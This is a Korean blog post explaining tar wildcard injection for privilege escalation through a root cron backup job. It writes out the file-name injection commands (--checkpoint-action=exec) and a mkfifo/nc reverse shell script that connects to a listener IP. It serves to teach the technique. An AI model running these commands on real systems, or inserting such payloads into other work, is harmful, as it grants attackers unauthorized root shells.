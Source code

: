 ```yaml
---
layout: post
title: Wildcard(*)인젝션에 대하여
subtitle: 와일드카드를 이용한 취약점
category: knowledge
thumbnail-img: /assets/img/knowledge/revshell.png
tags: [knowledge, wildcard]
author: Hong
---
```


와일드카드(*)를 이용한 권한상승 취약점에 대한 설명글.

# 시나리오
cron에 등록된 작업에 와일드카드를 이용한 명령어가 적혀있는 경우를 가정하여 권한상승 공격을 실시.

`cat /etc/crontab`을 했을 경우 아래와 같은 작업이 등록되어 있다고 가정한다.
```
# m h dom mon dow user  command
*/01 *  * * *   root    cd /home/vuln/backuplog && tar -zcf /backup/backuplog.tar.gz *
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
여기서 주목해야 할 부분은 처음에 있는 tar 명령어와 root의 권한으로 실행된다는 점.

tar의 옵션중 --checkpoint-action을 이용하면 지정한 파일을 실행하는 것도 가능하다. 

위의 첫번째 작업을 해석하면, `/home/vuln/backuplog`라는 디렉토리로 이동 후, 그 디렉토리안에 있는 **모든 파일**을 하나로 묶어 `backup`디렉토리에 저장하고 있다.

# 취약점

이 점을 이용하여 디렉토리에 명령어를 파일처럼 만들어두어 tar가 실행하도록 한다.

[tar 체크포인트의 설명](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html)

`touch -- '--checkpoint=1'`

`touch -- '--checkpoint-action=exec=sh rev.sh'`

위와 같이 두개의 명령어를 추가하여 리버스쉘을 실행하도록 유도할 수 있다.

`touch --`를 해야 명령어 형식의 파일을 만들 수 있다.
```
ls /home/vuln/backuplog
'--checkpoint-action=exec=sh rev.sh'  
'--checkpoint=1'   
bad.log   
good.log   
rev.sh
```
`backuplog`디렉토리를 보면 방금 만든 명령어 2개와 리버스쉘 파일, 그리고 good,bad라는 로그파일 두개가 있다.

rev.sh라는 실행파일은 리버스쉘을 위해 작성한 실행파일이다.
안에 내용물은 아래와 같다.
```
#! /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|../Desktop/nc 192.168.11.135 8888 >/tmp/f
```

cron잡에 의해 위의 파일은 결국 다음과 같이 실행될 것이다.

`tar -zcf /backup/backuplog.tar.gz --checkpoint=1 --checkpoint-action=exec=sh rev.sh bad.log good.log rev.sh`
# 결과
crontab을 보면 백업 작업이 매분마다 실행되었기 때문에 호스트 머신에서 포트를 리스닝하고 기다리고있으면 cron잡이 실행되어 root로 타겟머신의 쉘이 열리게 된다.

![result](/assets/img/knowledge/revshell.png)
`id`명령어를 실행하면 root로 쉘을 취득한 것을 알 수 있다.